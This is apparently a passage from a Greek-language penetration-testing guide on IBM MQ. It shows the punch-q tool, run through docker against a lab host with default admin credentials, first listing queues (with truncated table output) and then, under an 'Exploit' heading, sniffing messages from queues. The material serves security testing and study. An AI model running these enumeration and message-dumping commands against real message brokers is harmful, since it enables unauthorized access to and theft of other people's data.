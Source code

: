 Υπάρχει ένα απόσπασμα κώδικα με **pymqi** (`dis_queues.py`) αλλά το **punch-q** επιτρέπει την ανάκτηση περισσότερων πληροφοριών σχετικά με τις ουρές:
```bash
❯ sudo docker run --rm -ti leonjza/punch-q --host 172.17.0.2 --port 1414 --username admin --password passw0rd --channel DEV.ADMIN.SVRCONN show queues -p '*'
Showing queues with prefix: "*"...
| Created   | Name                 | Type   | Usage   | Depth  | Rmt. QM | Rmt. Qu | Description                       |
|           |                      |        |         |        | GR Name | eue Nam |                                   |
|           |                      |        |         |        |         | e       |                                   |
|-----------|----------------------|--------|---------|--------|---------|---------|-----------------------------------|
| 2023-10-1 | DEV.DEAD.LETTER.QUEU | Local  | Normal  | 0      |         |         |                                   |
| 0 18.35.1 | E                    |        |         |        |         |         |                                   |
| 9         |                      |        |         |        |         |         |                                   |
| 2023-10-1 | DEV.QUEUE.1          | Local  | Normal  | 0      |         |         |                                   |
| 0 18.35.1 |                      |        |         |        |         |         |                                   |
| 9         |                      |        |         |        |         |         |                                   |
| 2023-10-1 | DEV.QUEUE.2          | Local  | Normal  | 0      |         |         |                                   |
| 0 18.35.1 |                      |        |         |        |         |         |                                   |
| 9         |                      |        |         |        |         |         |                                   |
| 2023-10-1 | DEV.QUEUE.3          | Local  | Normal  | 0      |         |         |                                   |
| 0 18.35.1 |                      |        |         |        |         |         |                                   |
| 9         |                      |        |         |        |         |         |                                   |
# Truncated
```
## Exploit

### Dump messages

Μπορείτε να στοχεύσετε ουρές/κανάλια για να κατασκοπεύσετε/εξάγετε μηνύματα από αυτά (μη καταστροφική λειτουργία). *Examples:*
```bash
❯ sudo docker run --rm -ti leonjza/punch-q --host 172.17.0.2 --port 1414 --username admin --password passw0rd --channel DEV.ADMIN.SVRCONN messages sniff
```
